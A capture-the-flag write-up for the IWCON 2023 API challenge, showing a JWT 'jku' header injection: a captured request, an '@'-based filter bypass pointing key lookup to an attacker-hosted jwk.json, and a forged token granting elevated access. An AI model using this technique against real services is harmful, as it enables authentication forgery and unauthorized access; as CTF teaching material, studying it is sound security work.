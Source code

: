 ```yaml
---
title: IWCON23 CTF
image: assets/writeups/trace4.jpeg
description: Writeup for challenge IWCON 2023 API solved in IWCON 2023 
date: 2023-12-15 16:30:00 -3000
categories: [CTFwriteups]
tags: [API, web]
author: trace
---
```


![](https://imgur.com/HDfHZOD.png)
### **IWCON 2023 API**

#### **Step 1: Unveiling the Exploited Token Mechanism**

Our team scrutinized a POST request, uncovering a potential threat. This comprehensive analysis exposed the utilization of a manipulated token within the request to gain unauthorized access to sensitive information.

**POST Request Details:**
```http
POST /api/v2/getFlag HTTP/1.1
Host: 3.111.42.9:9595
User-Agent: curl/8.4.0
Accept: */*
Content-Length: 540
Content-Type: application/x-www-form-urlencoded
Connection: close
token=eyJqa3UiOiJodHRwczovLzc1N2YtMTE0LTM2LTE3LTIxNS5uZ3Jvay1mcmVlLmFwcCIsImtpZCI6IjY3ZTVjNjkyLWMzYzUtNDcwNi05MmVmLTUzMGUyZGU4YWIwMCIsInR5cCI6IkpXVCIsImFsZyI6IlJTMjU2In0.eyJ1c2VybmFtZSI6ImFkbWluIn0.OJY-8-9hUxEtSTH3w_LzfvC4ijYVbVBPCRzOII6JWIPLiwX3PFcpdo1Gks4vi3dpGAoX6ZJRAyQm7QDzRv083GngSqF1ZrH5ZfNEt8MWqK28rpVQx9BnatUxXYdaA3gNiWtPPyDl9cJsX1T6w4MCRljb9qih_gOCMjAtV6KxxKR2nJAPhSUbR0yzr7c13UWFQNnifSwBLGMcbxg2Doeh-fBqSS4JvueXKnQRyV-Th5RBlvUx6prQGk0IXW1I-93dCkbWXSUDX4JCzqXHa6qI0xgp_akhz8S1pcwq2sUECujVAgz75ke-pzQhSkzh5wN1G_T5jXEcKKIMTcg6JlKCWw
```

#### **Step 2: Manipulating the "jku" Parameter for Unauthorized Access**

Upon closer inspection, our team identified the "jku" parameter, pointing to "http://3.111.42.9/". Further investigation revealed a filter in place, leading to the discovery that leveraging the "@" symbol could redirect communication to a malicious server. To bypass the imposed filter, the "jku" parameter was manipulated to `"jku": "http://3.111.42.9@<attackerIP>:1445/.well-known/jwk.json"`. Notably, the requested `jwk.json` was then hosted on the attacker's server.

**JWK JSON Payload:**
```json
{"mykeys":[{"alg":"RS256","e":"AQAB","kid":"1234","kty":"RSA","n":"...","use":"sig"}]}
```

#### **Step 3: Generating the "N" Value for Unauthorized Token Creation**

With the obtained JWK data, we extracted the "N" value and proceeded to craft a new JWT token, embedding the desired username to facilitate the extraction of the target flag.

**Final JWT Token:**
```jwt
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IjEyMzQiLCJqa3UiOiJodHRwOi8vMy4xMTEuNDIuOUBSRURBQ1RFRDoxNDQ1Ly53ZWxsLWtub3duL2p3ay5qc29uIn0.eyJ1c2VybmFtZSI6Iml3Y29uIiwiYWRtaW4iOiJ0cnVlIn0.Ki_I4KqmCbEwbN8hEU7NiKsbsyBKUlDKuNSwZthXPZLUAY0x4FruBP5YKyBl-ohR6BPH8IEYt72smgMF4tEuUc0kyyJnOmr0e_VujEa5V23uo80I39rPB3H3U4t5XBEviZKd2haf2h5fkgW3ZNm6SdvvcweKyYpRkTjEAIDR1F5Th2ygjSl6hC8mBuX3cE_Xu4-Wh7EkotWB3hBbSNDrmsxeH2amqA6ZbP6Gwm7aCv0MWHvgGbT1KUtxQZM0WlmcqQlblO4UkYet7_byppX5TIdLy5aB-r6RvSiL9H6HI0VtjkWBu_BFmKywW0aPWVVJuG34ewtO5tTHTmtNFUqnWg
```

Acknowledgments to the shadowbrokers team for their collaborative effort:
- [https://twitter.com/Hac10101](https://twitter.com/Hac10101)
- [https://twitter.com/C15C01337](https://twitter.com/C15C01337)
- [https://twitter.com/5hriyan5h](https://twitter.com/5hriyan5h)
- [https://twitter.com/0xManan](https://twitter.com/0xManan)
- [https://twitter.com/Saitleop](https://twitter.com/Saitleop)
